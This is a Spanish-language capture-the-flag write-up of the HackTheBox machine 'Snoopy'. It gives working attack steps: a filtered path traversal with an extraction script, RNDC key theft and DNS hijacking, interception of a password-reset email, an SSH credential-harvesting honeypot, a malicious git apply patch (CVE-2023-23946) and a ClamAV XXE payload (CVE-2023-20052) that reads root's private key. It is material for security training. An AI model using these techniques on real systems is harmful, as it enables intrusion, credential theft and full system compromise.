










Resumen de Explotación
Resumen del proceso: La explotación comenzó identificando un path traversal filtrado en el endpoint /download que requería una sintaxis especial con doble punto-barra (....//) para evadir las restricciones. Mediante este path traversal, extraje la clave RNDC del servidor DNS Bind, lo que me permitió modificar registros DNS de forma dinámica.
Aprovechando que el servicio de correo mail.snoopy.htb estaba en migración, actualicé el registro DNS A de este dominio para que apuntara a mi máquina atacante. Monté un servidor SMTP falso y utilicé la funcionalidad de restablecimiento de contraseña del Mattermost para interceptar el correo de reinicio, obteniendo acceso al panel de administración como el usuario cbrown.
Una vez dentro del Mattermost, descubrí un comando de aprovisionamiento de servidores que intentaba conectarse por SSH a un puerto específico. Configuré un honeypot SSH que capturó las credenciales del usuario cbrown, permitiéndome acceder al sistema vía SSH. Desde allí, identifiqué permisos sudo para ejecutar git apply como el usuario sbrown.
Exploté CVE-2023-23946, una vulnerabilidad de path traversal en Git que permite escribir archivos fuera del repositorio actual mediante archivos patch maliciosos. Creé un enlace simbólico al directorio .ssh de sbrown y utilicé un patch especialmente diseñado para inyectar mi clave pública SSH en authorized_keys, ganando acceso como sbrown.
Para la escalada final a root, aproveché los permisos sudo de sbrown para ejecutar clamscan con el flag --debug. La versión de ClamAV instalada (1.0.0) era vulnerable a CVE-2023-20052, un XXE (XML External Entity) al parsear archivos DMG. Modifiqué un archivo DMG legítimo inyectando una entidad XXE que leía el archivo /root/.ssh/id_rsa, permitiéndome extraer la clave privada SSH de root y obtener acceso completo al sistema.
Tecnologías/Exploits: Path traversal filtrado con scripting, Bind DNS RNDC key abuse, DNS zone hijacking, SMTP server hijacking con aiosmtpd, Mattermost password reset bypass, SSH honeypot para credential harvesting, Git apply path traversal (CVE-2023-23946), ClamAV XXE arbitrary file read (CVE-2023-20052).
Reconocimiento Inicial
Comienzo con un escaneo de nmap para identificar puertos abiertos y servicios en ejecución:

El escaneo revela varios servicios interesantes. Lo que más me llama la atención es que el puerto 53 (DNS) está abierto, lo cual es inusual en una máquina típica de HackTheBox. Además, en la página de contacto del sitio web encuentro este mensaje significativo:
"Attention: As we migrate DNS records to our new domain please be advised that our mailserver 'mail.snoopy.htb' is currently offline."
Este mensaje sugiere que están en proceso de migración DNS y que el servidor de correo está temporalmente fuera de servicio, lo cual podría ser relevante más adelante.
Enumeración Web Inicial
Al intentar usar el formulario de contacto en la página web, veo este mensaje de error:

Añado los dominios snoopy.htb y mail.snoopy.htb al archivo /etc/hosts. Durante la enumeración de la web, identifico varios usuarios potenciales del sistema:
Ejecuto gobuster para enumerar directorios y encuentro una ruta interesante: /download

Al acceder a esta ruta, se descarga un archivo ZIP que contiene un PDF y un MP4, aunque estos archivos no proporcionan información útil de inmediato.
Descubrimiento de Virtual Hosts
Ejecuto un escaneo de virtual hosts con gobuster y descubro uno adicional:

Añado mm.snoopy.htb al /etc/hosts y al acceder descubro que es una instancia de Mattermost. Para los que no estén familiarizados, Mattermost es una plataforma de comunicación de equipo de código abierto y auto-hospedada, similar a Slack.
La página presenta un formulario de inicio de sesión para el cual no tengo credenciales, pero también ofrece una funcionalidad de restablecimiento de contraseña mediante correo electrónico. Al intentar restablecer una contraseña, recibo este mensaje:

El mensaje confirma que se ha enviado un correo, pero probablemente no lo recibiré debido a la migración DNS mencionada anteriormente. Esto me da una idea para más adelante.
Enumeración DNS - Zone Transfer
Dado que el puerto 53 está abierto, intento realizar un DNS Zone Transfer para obtener información sobre los registros DNS:
dig @10.10.11.212 snoopy.htb AXFREl comando tiene éxito y revela varios registros interesantes:
snoopy.htb. 86400 IN SOA ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
snoopy.htb. 86400 IN NS ns1.snoopy.htb.
snoopy.htb. 86400 IN NS ns2.snoopy.htb.
mattermost.snoopy.htb. 86400 IN A 172.18.0.3
mm.snoopy.htb. 86400 IN A 127.0.0.1
ns1.snoopy.htb. 86400 IN A 10.0.50.10
ns2.snoopy.htb. 86400 IN A 10.0.51.10
postgres.snoopy.htb. 86400 IN A 172.18.0.2
provisions.snoopy.htb. 86400 IN A 172.18.0.4
www.snoopy.htb. 86400 IN A 127.0.0.1Las direcciones IP en el rango 172.18.0.x sugieren servicios dockerizados. Los subdominios provisions y postgres son particularmente interesantes ya que son nuevos para mí.
Path Traversal - Análisis y Explotación
Volviendo a la enumeración web, examino más de cerca la ruta de descarga. Encuentro que se accede mediante un parámetro de archivo en la URL:
http://snoopy.htb/download?file=announcement.pdfEsto me hace sospechar de un posible path traversal. Intento una carga útil estándar:
curl http://snoopy.htb/download?file=../../../../../../../../../../../../../../../../../../etc/passwdSin embargo, esto devuelve un output vacío, lo que sugiere que hay algún tipo de filtrado o sanitización en funcionamiento.
Fuzzing para Identificar el Filtro
Para confirmar si existe un path traversal y entender cómo está filtrado, ejecuto fuzzing con ffuf:
ffuf -u http://snoopy.htb/download?file=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -mc all -acEl fuzzing confirma que existe path traversal, pero con una sintaxis diferente. Parece que el filtro elimina secuencias ../ simples, pero no maneja correctamente la secuencia ....//. Cuando se procesa, ....// se convierte efectivamente en ../ después de la sanitización.
Pruebo con la sintaxis modificada:
curl -o- http://snoopy.htb/download?file=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwdEsto devuelve datos, pero hay un problema: el contenido viene en formato ZIP comprimido en lugar de texto plano. Para facilitar la explotación, creo un script Python que automatiza el proceso de descarga, descompresión y extracción:
#!/usr/bin/env python3
import requests
import sys
import zipfile
from io import BytesIO
if len(sys.argv) < 2:
print(f"usage: {sys.argv[0]} [full path of file]")
sys.exit()
fpath = sys.argv[1]
outfile = sys.argv[2] if len(sys.argv) > 2 else None
resp = requests.get(f'http://snoopy.htb/download?file=....//....//....//....//....//{fpath}')
if len(resp.content) == 0:
print(f"File not found: {fpath}")
sys.exit()
with zipfile.ZipFile(BytesIO(resp.content)) as zip_file:
file_path_in_zip = zip_file.namelist()[0]
with zip_file.open(file_path_in_zip) as file:
contents = file.read()
if outfile:
with open(outfile, 'wb') as f:
f.write(contents)
print(f"Results written to {outfile}")
else:
print(contents.decode())Ahora puedo extraer archivos fácilmente. Por ejemplo, para obtener los usuarios del sistema:
python3 openzip.py /etc/passwd | grep bashroot:x:0:0:root:/root:/bin/bash
cbrown:x:1000:1000:Charlie Brown:/home/cbrown:/bin/bash
sbrown:x:1001:1001:Sally Brown:/home/sbrown:/bin/bash
lpelt:x:1003:1004::/home/lpelt:/bin/bash
cschultz:x:1004:1005:Charles Schultz:/home/cschultz:/bin/bash
vgray:x:1005:1006:Violet Gray:/home/vgray:/bin/bashEstos usuarios se corresponden con los nombres que vi anteriormente en la página web.
Extracción de la Clave RNDC
Bind es el servicio DNS más popular en sistemas Linux. Utilizo el path traversal para extraer el archivo de configuración de Bind:
python3 openzip.py /etc/bind/named.confEn la configuración encuentro una clave RNDC (Remote Name Daemon Control) crítica:
key "rndc-key" {
algorithm hmac-sha256;
secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};Esta clave permite realizar modificaciones dinámicas al servicio DNS, lo cual es exactamente lo que necesito para mi siguiente paso.
DNS Hijacking - Redirigiendo el Servidor de Correo
Mi estrategia es la siguiente: dado que sé que hay aplicaciones que intentan enviar correos a mail.snoopy.htb y que este servicio está actualmente offline debido a la migración, puedo modificar el registro DNS de mail.snoopy.htb para que apunte a mi máquina. Así podré interceptar los correos electrónicos.
Según la documentación de Bind (TSIG), puedo usar la herramienta nsupdate para actualizar registros DNS de forma dinámica.
Preparando la Actualización DNS
Primero, guardo la clave RNDC en un archivo llamado rndc.key:
key "rndc-key" {
algorithm hmac-sha256;
secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};Luego creo un archivo mail_dns.txt con los comandos de actualización DNS:
server 10.10.11.212
zone snoopy.htb
update add mail.snoopy.htb 86400 IN A 10.10.16.2
sendEstos comandos especifican el servidor DNS objetivo, la zona a modificar, el nuevo registro A para mail.snoopy.htb apuntando a mi dirección IP, y finalmente envían la actualización.
Ejecuto la actualización:
nsupdate -k rndc.key mail_dns.txtVerifico que el cambio se haya aplicado correctamente:
dig mail.snoopy.htb +noall +answer @10.10.11.212mail.snoopy.htb. 86400 IN A 10.10.16.2¡Perfecto! Ahora mail.snoopy.htb resuelve a mi máquina atacante.
Configurando el Servidor SMTP Falso
Ahora necesito montar un servidor SMTP en mi máquina para recibir los correos electrónicos. Utilizaré el módulo aiosmtpd de Python, que proporciona un servidor SMTP simple similar a cómo http.server proporciona un servidor HTTP.
Primero, otorgo a Python la capacidad de escuchar en puertos privilegiados (por debajo de 1024):
sudo setcap cap_net_bind_service=ep /usr/bin/python3.13Creo un entorno virtual e instalo el módulo necesario:
python3 -m venv venv
source venv/bin/activate
pip3 install aiosmtpdFinalmente, inicio el servidor SMTP en el puerto 25:
python -m aiosmtpd -n -l 0.0.0.0:25Acceso al Mattermost - Password Reset
Con mi servidor SMTP falso en funcionamiento y el DNS apuntando a mi máquina, voy a la página de Mattermost y solicito un restablecimiento de contraseña para el usuario cbrown@snoopy.htb:

Mi servidor SMTP recibe el correo electrónico con una URL de restablecimiento de contraseña:
http://mm.snoopy.htb/reset_password_complete?token=3Dob8pf=
mfin8hu18hdxjrfdq96nj6g137srigycdzhort4ziurndmree9dig6re6iaSin embargo, al intentar usar este token directamente, encuentro un problema:

Decodificando el Token - Quoted-Printable Encoding
El problema es que el correo electrónico se recibe en texto plano con codificación Quoted-Printable, que es un estándar de codificación de correo electrónico. En esta codificación:
=3Drepresenta el carácter=- Un
=al final de una línea indica simplemente un salto de línea suave (line break) que debe ignorarse
Decodifico el token manualmente:
- Elimino el
=3Dal inicio (que es un=) - Elimino el
=después de...8pf(que es solo un line break)
El token corregido queda así:
ob8pfmfin8hu18hdxjrfdq96nj6g137srigycdzhort4ziurndmree9dig6re6iaAhora puedo acceder a la página de restablecimiento de contraseña y establecer una nueva contraseña para el usuario cbrown:

¡Perfecto! Ahora tengo acceso al Mattermost como cbrown.
Explorando Mattermost
Una vez dentro, identifico las versiones del software en ejecución:
Mattermost Version: 7.9.0
Database Schema Version: 104
Database: postgresEn los canales de chat, veo conversaciones sobre un antivirus de Linux (ClamAV) y referencias a un canal de aprovisionamiento (provisioning). Encuentro un canal llamado "provisioning" que tiene comandos slash personalizados disponibles.
Al explorar los comandos slash usando /, descubro uno llamado "server provisioning" que presenta este formulario modal:

SSH Honeypot - Capturando Credenciales
El formulario solicita un hostname, puerto SSH y una clave. Primero pruebo configurando un listener básico de netcat en el puerto 2222:
sudo nc -lvnp 2222Después de enviar el formulario, recibo una conexión SSH:
listening on [any] 2222 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.212] 56464
SSH-2.0-paramiko_3.1.0Esto confirma que el sistema está intentando conectarse por SSH a mi máquina, probablemente con credenciales almacenadas. Para capturar estas credenciales, necesito un servidor SSH honeypot real que pueda registrar los intentos de autenticación.
Implementando el Honeypot
Creo un script Python que implementa un servidor SSH honeypot básico usando la biblioteca Paramiko. El script acepta conexiones SSH pero rechaza las autenticaciones después de registrar las credenciales proporcionadas.
Ejecuto el honeypot:
python3 sshhoneypot.py2025-12-14 14:40:33,648 - SSH Honeypot started on 0.0.0.0:2222
2025-12-14 14:40:33,648 - Waiting for connections...
2025-12-14 14:40:57,794 - Connection from 10.10.11.212:40680
2025-12-14 14:40:57,795 - Generating new RSA host key...
2025-12-14 14:40:57,865 - Connected (version 2.0, client paramiko_3.1.0)
2025-12-14 14:40:58,611 - Login attempt from 10.10.11.212 - Username: cbrown, Password: sn00pedcr3dential!!!
2025-12-14 14:40:58,611 - Auth rejected (password).¡Excelente! He capturado credenciales válidas:
cbrown:sn00pedcr3dential!!!Acceso Inicial SSH
Con estas credenciales, me conecto al sistema por SSH:
ssh cbrown@10.10.11.212¡Acceso concedido! Estoy dentro del sistema como el usuario cbrown.
Enumeración como cbrown
Después de obtener acceso, lo primero que hago es verificar los privilegios sudo disponibles:
sudo -lMatching Defaults entries for cbrown on snoopy:
env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass
User cbrown may run the following commands on snoopy:
(sbrown) PASSWD: /usr/bin/git ^apply -v [a-zA-Z0-9.]+$Esto indica que puedo ejecutar git apply -v como el usuario sbrown, pero con una expresión regular que restringe el nombre del archivo a caracteres alfanuméricos y puntos.
En el /home del sistema encuentro dos usuarios: cbrown y sbrown. Busco repositorios Git en el sistema pero no encuentro ninguno inicialmente:
find / -type d -name .git 2>/dev/nullCVE-2023-23946 - Git Apply Path Traversal
Verifico la versión de Git instalada:
git --versiongit version 2.34.1Esta versión es vulnerable a CVE-2023-23946, un path traversal en git apply que permite escribir archivos fuera del directorio de trabajo actual del repositorio. El exploit abusa de cómo Git maneja los enlaces simbólicos cuando se renombran en archivos patch.
Encuentro una prueba de concepto útil en: https://github.com/bruno-1337/CVE-2023-23946-POC
Entendiendo la Vulnerabilidad
La vulnerabilidad funciona de la siguiente manera:
- Creo un enlace simbólico que apunta al directorio
.sshdel usuario objetivo (sbrown) - Hago commit del enlace simbólico en un repositorio Git
- Creo un archivo patch que primero renombra el enlace simbólico y luego crea un nuevo archivo dentro de ese enlace simbólico "renombrado"
- Cuando Git procesa el patch, debido a un fallo en el manejo de path traversal, termina escribiendo el archivo en la ubicación real a la que apunta el enlace simbólico, no en el directorio de trabajo
Explotación Paso a Paso
Creo un directorio de trabajo temporal y comienzo la explotación:
cd /tmp
mkdir exploit
cd exploitPaso 1: Creo un enlace simbólico al directorio .ssh de sbrown:
ln -s /home/sbrown/.ssh symlinkPaso 2: Inicializo un repositorio Git:
git initPaso 3: Añado y hago commit del enlace simbólico:
git add symlink
git commit -m "commit"Paso 4: Creo el archivo patch malicioso llamado xploit.patch:
diff --git a/symlink b/rn-symlink
rename from symlink
rename to rn-symlink
--
diff --git /dev/null b/rn-symlink/authorized_keys
new file mode 100644
index 0000000..e47f4ea
--- /dev/null
+++ b/rn-symlink/authorized_keys
@@ -0,0 +1,1 @@
+ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINaRz0/4BTr6JaFNeVYUvYqjewZLVyGvYKaj+2Z08nJw xd@xd.comEste patch hace dos cosas:
- Primero, renombra el enlace simbólico de
symlinkarn-symlink - Segundo, crea un nuevo archivo
authorized_keysdentro dern-symlink/con mi clave pública SSH
La clave pública que incluyo es de un par de claves SSH que he generado previamente en mi máquina local:
ssh-keygen -t ed25519 -f id_ed25519Paso 5: Ejecuto el exploit usando sudo para aplicar el patch como sbrown:
sudo -u sbrown git apply -v xploit.patchDebido al path traversal, Git termina escribiendo el archivo authorized_keys en /home/sbrown/.ssh/authorized_keys en lugar de en el directorio de trabajo actual.
Paso 6: Me conecto como sbrown usando mi clave privada:
ssh -i id_ed25519 sbrown@snoopy.htb¡Éxito! Ahora tengo acceso como el usuario sbrown y puedo recuperar la flag de usuario.
Escalada de Privilegios a Root
Como sbrown, verifico nuevamente los permisos sudo:
sudo -lMatching Defaults entries for sbrown on snoopy:
env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass
User sbrown may run the following commands on snoopy:
(root) NOPASSWD: /usr/local/bin/clamscan ^--debug /home/sbrown/scanfiles/[a-zA-Z0-9.]+$Puedo ejecutar clamscan con el flag --debug como root, pero solo en archivos dentro del directorio /home/sbrown/scanfiles/ con nombres que coincidan con el patrón especificado.
Verifico la versión de ClamAV instalada:
clamscan --versionClamAV 1.0.0/26853/Fri Mar 24 07:24:11 2023CVE-2023-20052 - ClamAV XXE Arbitrary File Read
Esta versión de ClamAV es vulnerable a varias CVEs. Las que me interesan son:
- CVE-2023-20032 - Ejecución remota de código
- CVE-2023-20052 - Lectura arbitraria de archivos mediante XXE
La primera es RCE pero no encuentro una PoC viable y parece difícil de explotar. Para la segunda, encuentro este exploit: https://github.com/nokn0wthing/CVE-2023-20052
Entendiendo CVE-2023-20052
Esta vulnerabilidad explota un XXE (XML External Entity) en el parser XML de ClamAV cuando procesa archivos DMG (Apple Disk Image) con el flag --debug habilitado. Los archivos DMG contienen XML interno que describe la estructura del disco, y ClamAV parsea este XML sin desactivar adecuadamente las entidades externas.
La estrategia es:
- Conseguir un archivo DMG legítimo
- Modificar el XML interno del DMG para inyectar una entidad XXE que lea un archivo del sistema
- Hacer que ClamAV escanee el archivo con
--debug - La salida de debug revelará el contenido del archivo leído
Preparando el Exploit
Descargo un archivo DMG legítimo desde: https://macdownload.informer.com/notepad/download/#downloading
Uso la herramienta ghex (un editor hexadecimal) para modificar el contenido XML dentro de notepad.dmg. Busco la sección XML y la modifico para incluir mi payload XXE:


El payload XXE que inyecto tiene esta estructura:
<!DOCTYPE plist [
<!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa">
]>
<plist>
<key>&xxe;</key>
</plist>Esto define una entidad XXE llamada xxe que lee el contenido del archivo /root/.ssh/id_rsa, y luego la referencia dentro de un elemento <key> para que se expanda cuando ClamAV parsee el XML.
Ejecutando el Exploit
Transfiero el archivo DMG modificado a la máquina víctima en el directorio /home/sbrown/scanfiles/. Luego ejecuto el escaneo con privilegios de root:
sudo clamscan --debug /home/sbrown/scanfiles/notepad.dmgEl output de debug es extenso, pero entre toda la información de depuración, encuentro la clave privada SSH de root:

Copio la clave privada a mi máquina local, la guardo en un archivo llamado id_rsa, y establezco los permisos correctos:
chmod 600 id_rsaFinalmente, me conecto como root usando la clave privada extraída:
ssh -i id_rsa root@snoopy.htbWelcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
root@snoopy:~#¡Perfecto! Tengo acceso completo como root y puedo recuperar la flag de root, completando así la máquina.